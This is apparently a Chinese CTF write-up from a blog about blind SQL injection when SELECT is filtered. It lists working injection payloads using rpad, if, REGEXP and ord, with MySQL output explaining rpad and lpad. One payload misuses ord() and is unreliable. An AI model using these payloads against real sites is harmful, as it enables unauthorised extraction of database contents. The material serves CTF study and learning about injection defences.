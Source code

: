 title: 不使用select情况下的各种盲注
date: 2015-10-05 11:17:10
tags: SQLi 
categories: H-blog
---
![SQLI](/img/sqli.jpg)
<!--more-->
这次的XDCTF, 关于web1 400, 学到了很多666的姿势, 开一篇新博文, 记录这些姿势..

原本我以为, 在select被过滤的情况下, 如果不能bypass, 就没法注入... 而这次看了writeup后, 不同的队, 姿势都不同, 大开眼界....

这次题目的语句我猜测是 `select pic from table where ID="$i";`
$i 则是可控点..

```
payload 0x0:
    $i = 1" && username="%
构成以下语句:
select pic from talbe where ID="1" && username="%"
这个payload可以用来猜测是否有该字段, 接下来的盲注这语句仍然可用

payload 0x1:
    $i = 111" OR if(rpad(username,1,1)="a",1,0)#  或者 111" OR if(rpad(username,1,1)=char(101),1,0)# 
构成以下语句:
select pic from table where ID="111" OR if(rpad(username,1,1)="a",1,0)#"
在知道该表有username字段后, 可以通过这语句进行盲注
```
上面的语句用到了两个函数, 一个 `if()` && `rpad()`
if函数在我之前的博客中写过, 就不再多说..主要讲讲rpad()
rpad还有个相同功能的行数lpad, 一个是right 一个是 left , 具体的用法已实例来讲解:
```
mysql> select name from table;
+----------+
| name     |
+----------+
| Hcamael  |
+----------+
1 row in set (0.00 sec)
mysql> select rpad(name,5,1) from table;
+--------------------+
| rpad(name,5,1)     |
+--------------------+
| Hcama              |
+--------------------+
1 row in set (0.01 sec)
mysql> select rpad(name,10,1) from table;
+---------------------+
| rpad(name,10,1)     |
+---------------------+
| Hcamael111          |
+---------------------+
1 row in set (0.00 sec)
mysql> select lpad(name,5,1) from table;
+--------------------+
| rpad(name,5,1)     |
+--------------------+
| Hcama              |
+--------------------+
1 row in set (0.01 sec)
mysql> select lpad(name,10,1) from table;
+---------------------+
| lpad(name,10,1)     |
+---------------------+
| 111Hcamael          |
+---------------------+
1 row in set (0.00 sec)

```
这两个函数有三个参数, 第一个是字段名, 第二个是显示几位, 第三个是当位数不足时, 以啥补充..

```
payload 0x2:
    $i = 111" OR username REGEXP "^[a-z]
select pic from table where ID ="111" OR username REGEXP "^[a-z]"
正则匹配法注入, 真是涨姿势了, 第一次见

payload 0x3:
    $i = 111" OR (ascii(ord(username,1,1)))=97# 或者 111" OR (ord(username,1,1))='a'#
select pic from table where ID="111" OR (ascii(ord(username,1,1)))=97#"
这种方法我以前盲注的时候写过, 可是当没有select的时候, 我却自然的以为这些不行用了...
```




